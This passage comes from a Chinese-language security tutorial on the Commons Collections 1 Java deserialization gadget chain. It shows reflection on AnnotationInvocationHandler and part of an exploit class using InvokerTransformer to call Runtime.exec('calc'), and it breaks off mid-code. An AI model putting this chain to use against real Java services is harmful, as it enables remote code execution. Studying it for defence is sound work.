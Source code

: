 是一个 Map.Entry 的形式，然后在遍历 map。使用了 setValue，所以我们就要去控制 Map

我们看的该类的构造方法

[![](assets/1700127979-70bf84a7d63f2a719ff15a099229a32b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116154913-a27db692-8454-1.png)

我们在构造函数中发现 Map 可以被我们完全控制，`Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);`同时我们要注意 AnnotationlnvocationHandler 类是一个`default`，所以我们只能通过反射来获得类的实例对象。

```plain
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ann=c.getDeclaredConstructor(Class.class,Map.class);
ann.setAccessible(true);
Object annIns=ann.newInstance(Override.class,transformedmap);
```

于是乎我们构造的完整的 exp 就是如下的情况

```plain
package org.example;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        Runtime r=Runtime.getRuntime();
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); //方法名为exec，参数类型为String，参数值为calc
        HashMap<Object,Object> map=new HashMap<>();
        map.put("k","v");
        Map<Object,Object> transformedmap=TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```